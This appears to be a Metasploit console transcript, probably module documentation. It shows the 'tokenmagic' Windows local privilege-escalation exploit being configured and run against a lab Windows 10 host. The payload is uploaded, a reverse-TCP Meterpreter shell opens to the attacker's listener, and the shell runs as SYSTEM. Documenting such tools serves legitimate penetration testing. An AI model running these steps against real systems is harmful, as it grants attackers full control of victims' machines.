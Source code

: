 ```
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(windows/local/tokenmagic) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(windows/local/tokenmagic) > set lport 4443
lport => 4443
msf exploit(windows/local/tokenmagic) > set session 2
session => 2
msf exploit(windows/local/tokenmagic) > run

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-O5RD7G3 via session ID: 2
[*] Uploading payload to C:\Users\msfuser\AppData\Local\Temp\dbfkhe.exe
[*] Running Exploit on DESKTOP-O5RD7G3
[*] Executing TokenMagic PowerShell script
[+] Enjoy the shell!
[*] Sending stage (200262 bytes) to 172.16.199.135
[+] Deleted C:\Users\msfuser\AppData\Local\Temp\dbfkhe.exe
[*] Meterpreter session 3 opened (172.16.199.1:4443 -> 172.16.199.135:49876) at 2021-05-14 12:19:24 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-O5RD7G3
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter >
```
